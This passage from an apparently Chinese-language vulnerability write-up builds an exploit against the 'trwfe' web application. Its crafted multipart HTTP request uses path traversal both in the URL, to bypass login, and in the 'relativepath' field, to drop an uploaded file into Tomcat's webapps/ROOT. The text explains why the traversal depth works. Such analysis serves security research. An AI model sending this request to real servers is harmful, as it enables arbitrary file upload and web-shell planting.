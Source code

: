 于是我们构造

```http
POST /trwfe/login.jsp/../file/addUpFile.do HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=75C5B2A6A345EECBDE53481C9EC12B02
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ89XK7WxiQuU7uq1
Content-Length: 408

------WebKitFormBoundaryJ89XK7WxiQuU7uq1
Content-Disposition: form-data; name="relativepath"

../../webapps/ROOT/c
------WebKitFormBoundaryJ89XK7WxiQuU7uq1
Content-Disposition: form-data; name="file"; filename="test.txt"

just for test
------WebKitFormBoundaryJ89XK7WxiQuU7uq1
Content-Disposition: form-data; name="taskId"

123456
------WebKitFormBoundaryJ89XK7WxiQuU7uq1--
```

为什么我们的relativepath要构造为`../../webapps/ROOT/c`呢？

前面已经分析过了

> relativepath传入`/a/b/c`，实际上sb的值是`/a/b`，并不会拼接到`/c`，因为i只能循环到i=2，下一次就是i=3了，不满足i<3的条件，不会进入循环体内去继续拼接sb，这一点很重要！没搞清这个细节的话后面就不知道怎么构造relativepath的值。

为什么需要跳两次呢`../../`，因为有一次是temp，还有一层来自taskId 123456

这样一来sb的值就是

```
xxx..xx/tomcat/temp/123456/../../webapps/ROOT/
```

即

```
xxx..xx/tomcat/webapps/ROOT/
```

然后继续跟代码

```java
String fileName = multipartFile.getOriginalFilename();
sb.append("/" + fileName);
```
